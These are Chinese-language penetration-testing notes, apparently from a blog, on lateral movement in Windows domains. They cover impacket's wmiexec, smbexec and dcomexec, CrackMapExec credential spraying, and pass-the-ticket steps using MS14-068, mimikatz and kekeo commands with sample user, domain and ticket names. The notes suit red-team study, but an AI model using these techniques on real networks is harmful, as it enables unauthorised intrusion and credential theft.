 ##### WMI：开放135、445端口（这个协议的登录，不会在系统日志中留下痕迹）

1. 命令
2. 工具：impacket套件 -> wmiexec.py文件

##### SMB：开放135、445端口

1. 工具：impacket套件 -> smbexec.py文件

##### DCOM：win7以上

1. 工具：impacket套件 -> dcomexec.py文件

##### WinRS、WinRM：开放5986、5985

1. 命令

##### rdp：开放3389

1. 远程桌面，图形化，需要明文，结合流量转发到本地（代理、端口转发）

##### 凭据喷射爆破项目：CrackMapExec

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/73b9d123f1f84b9ca03c78cbf06d0466.png#pic_center)



作用：

	集成了以上所有的服务，可以指定：一系列内网ip、一种服务、一个hash/密码字典、一个域/非域账户字典，进行喷射，执行xx命令。

支持：

1. **hash**
2. 可以流量代理到本地执行（端口转发、设置代理节点）

#### 二、PTT 攻击不受防火墙影响：

##### MS14068漏洞：

1. 获取一个域用户的SID

2. 受控机上传入exp的exe，输入这个域用户名，明文密码，生成票据

3. mimikatz导入票据

   ```
   mimikatz kerberos::ptc TGT_webadmin@god.org.ccache
   ```

4. 连接上线

   ```
   shell dir \\OWA2010CN-GOD\c$
   ```

##### kekeo将hash->票据：

1. 生成票据

   ```
   shell kekeo "tgt::ask /user:Administrator /domain:xxx/ntlm::xxx" "exit"
   ```
